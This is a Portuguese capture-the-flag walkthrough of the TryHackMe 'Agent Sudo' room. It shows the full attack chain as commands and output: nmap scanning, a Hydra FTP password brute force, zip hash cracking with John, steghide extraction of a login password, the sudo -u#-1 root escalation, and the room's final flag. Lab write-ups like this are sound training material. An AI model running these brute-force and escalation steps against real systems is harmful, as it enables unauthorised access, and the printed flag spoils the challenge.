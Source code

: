 ```yaml
---
title: TryHackMe - Agent Sudo
author: Mithr4nd1r
date: 2022-08-18 00:00:00 -0300
categories: [TryHackMe, Agent Sudo]
tags: [writeup, walkthrough, tryhackme, thm, tutorial, hacking, pentest, ctf, capture, flag]
pin: true
---
```


Dificuldade | Opinião | 📅 Início | 📅 Concluída
:--:|:--:|:--:|:--:
Fácil|Médio|17 de Agosto de 2022|18 de Agosto de 2022

## Escaneamento
- Comando: `nmap -sSV -v 10.10.182.39 -Pn -p 21,22,8`
```console
Nmap scan report for 10.10.182.39
Host is up (0.37s latency).
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
## Enumeração

![Untitled](TryHackMe%20-%20Agent%20Sudo%20551ca5d7836b45c19d28f8416830c7da/Untitled.png)

![Untitled](TryHackMe%20-%20Agent%20Sudo%20551ca5d7836b45c19d28f8416830c7da/Untitled%201.png)

![Untitled](TryHackMe%20-%20Agent%20Sudo%20551ca5d7836b45c19d28f8416830c7da/Untitled%202.png)

```bash
┌──(root💀tenas)-[/home/tenas]
└─# hydra -l chris -P /home/tenas/Downloads/rockyou.txt 10.10.182.39 ftp                                              130 ⨯
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-08-17 21:53:53
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.182.39:21/
[STATUS] 256.00 tries/min, 256 tries in 00:01h, 14344143 to do in 933:52h, 16 active
[21][ftp] host: 10.10.182.39   login: **chris**   password: **crystal**
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-08-17 21:54:58
```

```bash
┌──(root💀tenas)-[/home/tenas]
└─# ftp 10.10.182.39                    
Connected to 10.10.182.39.
220 (vsFTPd 3.0.3)
Name (10.10.182.39:tenas): chris
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||9689|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
ftp> get To_agentJ.txt
local: To_agentJ.txt remote: To_agentJ.txt
229 Entering Extended Passive Mode (|||35385|)
150 Opening BINARY mode data connection for To_agentJ.txt (217 bytes).
100% |*******************************************************************************|   217        2.08 MiB/s    00:00 ETA
226 Transfer complete.
217 bytes received in 00:00 (0.68 KiB/s)
ftp> get cute-alien.jpg
local: cute-alien.jpg remote: cute-alien.jpg
229 Entering Extended Passive Mode (|||26681|)
150 Opening BINARY mode data connection for cute-alien.jpg (33143 bytes).
100% |*******************************************************************************| 33143       52.11 KiB/s    00:00 ETA
226 Transfer complete.
33143 bytes received in 00:00 (36.22 KiB/s)
ftp> get cutie.png
local: cutie.png remote: cutie.png
229 Entering Extended Passive Mode (|||65384|)
150 Opening BINARY mode data connection for cutie.png (34842 bytes).
100% |*******************************************************************************| 34842       58.62 KiB/s    00:00 ETA
226 Transfer complete.
34842 bytes received in 00:00 (39.86 KiB/s)
ftp> exit
221 Goodbye.
```

![Untitled](TryHackMe%20-%20Agent%20Sudo%20551ca5d7836b45c19d28f8416830c7da/Untitled%203.png)

[https://book.hacktricks.xyz/crypto-and-stego/stego-tricks](https://book.hacktricks.xyz/crypto-and-stego/stego-tricks)

![Untitled](TryHackMe%20-%20Agent%20Sudo%20551ca5d7836b45c19d28f8416830c7da/Untitled%204.png)

![Untitled](TryHackMe%20-%20Agent%20Sudo%20551ca5d7836b45c19d28f8416830c7da/Untitled%205.png)

```bash
┌──(root💀tenas)-[/home/…/gciber/extra/vulnhub/agent]
└─# cat _cutie.png.extracted 
cat: _cutie.png.extracted: É um diretório
                                                                                                                            
┌──(root💀tenas)-[/home/…/gciber/extra/vulnhub/agent]
└─# cd _cutie.png.extracted                                                                                             1 ⨯
                                                                                                                            
┌──(root💀tenas)-[/home/…/extra/vulnhub/agent/_cutie.png.extracted]
└─# ls
365  365.zlib  8702.zip  To_agentR.txt
                                                                                                                            
┌──(root💀tenas)-[/home/…/extra/vulnhub/agent/_cutie.png.extracted]
└─# cat To_agentR.txt
```

```bash
┌──(root💀tenas)-[/home/…/extra/vulnhub/agent/_cutie.png.extracted]
└─# zip2john 8702.zip                        
8702.zip/To_agentR.txt:$zip2$*0*1*0*4673cae714579045*67aa*4e*61c4cf3af94e649f827e5964ce575c5f7a239c48fb992c8ea8cbffe51d03755e0ca861a5a3dcbabfa618784b85075f0ef476c6da8261805bd0a4309db38835ad32613e3dc5d7e87c0f91c0b5e64e*4969f382486cb6767ae6*$/zip2$:To_agentR.txt:8702.zip:8702.zip
                                                                                                                            
┌──(root💀tenas)-[/home/…/extra/vulnhub/agent/_cutie.png.extracted]
└─# zip2john 8702.zip > zip_hash
                                                                                                                            
┌──(root💀tenas)-[/home/…/extra/vulnhub/agent/_cutie.png.extracted]
└─# jumbo zip_hash     
Warning: detected hash type "ZIP", but the string is also recognized as "ZIP-opencl"
Use the "--format=ZIP-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
Will run 8 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/src/john/run/password.lst
**alien**            (8702.zip/To_agentR.txt)     
1g 0:00:00:00 DONE 2/3 (2022-08-17 22:45) 2.222g/s 119177p/s 119177c/s 119177C/s 123456..faithfaith
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

![Untitled](TryHackMe%20-%20Agent%20Sudo%20551ca5d7836b45c19d28f8416830c7da/Untitled%206.png)

```bash
┌──(root💀tenas)-[/home/…/extra/vulnhub/agent/_cutie.png.extracted]
└─# echo QXJlYTUx | base64 -d         
Area51
```

```bash
┌──(root💀tenas)-[/home/…/gciber/extra/vulnhub/agent]
└─# ls   
cute-alien.jpg  cutie.png  _cutie.png.extracted  To_agentJ.txt
                                                                                                                            
┌──(root💀tenas)-[/home/…/gciber/extra/vulnhub/agent]
└─# steghide extract -sf cute-alien.jpg
Enter passphrase: 
wrote extracted data to "message.txt".
                                                                                                                            
┌──(root💀tenas)-[/home/…/gciber/extra/vulnhub/agent]
└─# cat message.txt 
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

pass=hackerrules!

![Untitled](TryHackMe%20-%20Agent%20Sudo%20551ca5d7836b45c19d28f8416830c7da/Untitled%207.png)

[https://www.exploit-db.com/exploits/47502](https://www.exploit-db.com/exploits/47502)

![Untitled](TryHackMe%20-%20Agent%20Sudo%20551ca5d7836b45c19d28f8416830c7da/Untitled%208.png)

```bash
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# cd /root
root@agent-sudo:/root# ls
root.txt
root@agent-sudo:/root# cat root.txt 
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
root@agent-sudo:/root#
```

[](TryHackMe%20-%20Agent%20Sudo%20551ca5d7836b45c19d28f8416830c7da/Untitled%20d7f9cf84b9f747328c6e4b54b4b9a462.md)

[](TryHackMe%20-%20Agent%20Sudo%20551ca5d7836b45c19d28f8416830c7da/Untitled%20f549f92391224d1b98e53791b9438e48.md)
